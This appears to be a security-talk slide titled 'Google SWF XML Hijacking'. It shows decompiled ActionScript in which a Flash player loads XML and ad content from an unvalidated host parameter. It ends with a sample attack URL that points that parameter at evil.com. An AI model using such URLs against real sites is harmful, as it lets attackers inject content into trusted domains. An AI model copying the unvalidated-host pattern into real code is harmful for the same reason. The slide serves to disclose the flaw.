

Google SWF XML Hijacking
var myXML = new XML();
var __callResult_162 = myXML.load(( ( "http://" + _root.host ) + "/load.php?action=playerad" ));
myXML.ignoreWhite = True;
myXML.onLoad = function (success) {
    type = myXML.childNodes.0.childNodes.0.childNodes.0.nodeValue;
    adurl = myXML.childNodes.0.childNodes.1.childNodes.0.nodeValue;
    _global.sec =  Number(myXML.childNodes.0.childNodes.2.childNodes.0. nodeValue) ;
    std = myXML.childNodes.0.childNodes.3.childNodes.0.nodeValue;
    if ( ( std == 1 ) ) {
        if ( ( type == 1 ) ) {
            mp1.contentPath = ( ( ( "http://" + _root.host ) + "/" ) + adurl );
            var __callResult_267 = mp1.play();

XML Hijacking： http://www.google.com/ads/videopbox.swf?home_host_port=evil.com